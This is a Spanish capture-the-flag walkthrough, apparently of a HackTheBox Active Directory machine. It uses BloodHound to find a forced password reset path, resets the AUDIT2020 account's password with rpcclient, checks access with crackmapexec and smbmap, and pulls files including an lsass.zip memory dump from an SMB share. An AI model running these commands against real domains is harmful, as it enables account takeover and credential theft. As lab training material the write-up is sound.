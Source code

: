 1. connectamos bloodhound al neo4j database

1. Drag & Drop de los ficheros **.json** hacia la ventana del bloodhound y en el Analysis tab

    - Find Shortest Paths to Domain Admins
    - Find Paths from Kerberoastable Users
    - Find AS-REP Roastable Users
    

Aqui no vemos gran cosa, lo unico el usuario support que es asreproasteable pero poco mas. Analizamos los nodos de este usuario.
Le damos un clic derecho al usuario y lo seteamos a Mark User as Owned.
Vamos a Node Info y miramos donde hay un 1.

Vemos que el usuario **support** puede forzar un cambio de contraseña al usuario **AUDIT2020**  


### Forzar un cambio de contraseña con rpcclient {-}

```bash
rpcclient -U "support%#00^BlackKnight" 10.10.10.192

> rpcclient $> setuserinfo2 audit2020 24 s4vitar123$!
```

Ahora que hemos cambiado la contraseña, lo miramos con **crackmapexec**

```bash
crackmapexec smb 10.10.10.192 -u 'audit2020' -p 's4vitar123$!'
```

El cambio de contraseña a sido effectiva y ahora miramos que privilegios tiene en los recursos compartidos tiene a nivel de red.

```bash
smbmap -H 10.10.10.192 -u 'audit2020' -p 's4vitar123$!'
```

Vemos que este usuario tiene privilegios de lectura sobre el directorio `forensic`. Miramos lo que hay en este directorio.




## Vuln exploit & Gaining Access {-}

### Ganando accesso con Win-RM {-}

```bash
smbclient //10.10.10.192/forensic -U 'audit2020%s4vitar123$!'
dir
cd commands_output
get domain_users.txt
get domain_admins.txt
cd ..
cd memory_analysis
dir
get lsass.zip
```
